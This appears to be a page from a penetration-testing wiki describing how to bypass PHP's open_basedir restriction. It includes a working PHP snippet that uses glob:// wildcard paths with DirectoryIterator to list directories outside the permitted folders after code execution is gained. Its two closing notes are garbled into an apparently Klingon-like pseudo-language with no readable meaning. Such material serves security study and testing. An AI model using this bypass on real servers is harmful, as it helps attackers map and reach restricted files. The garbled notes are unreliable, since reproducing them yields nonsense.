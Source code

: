 ## open\_basedir Bypass

`open_basedir` will configure the folders that PHP can access, you **won't be able to to write/read/execute any file outside** those folders, but also you **won't even be able to list** other directories.\
However, if somehow you are able to execute arbitrary PHP code you can **try** the following chunk of **codes** to try to **bypass** the restriction.

### Listing dirs with glob:// bypass

In this first example the `glob://` protocol with some path bypass is used:
```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
echo "{$f}<br/>";
}
```
**Note1**: ghItlhvam `/e??/*` lo'lu'pu' `/etc/*` je 'ej 'oH ghaH 'e' vItlhutlh.\
**Note2**: vItlhutlhDaq code vItlhutlh'e'. 'ach vaj vItlhutlh'e'!\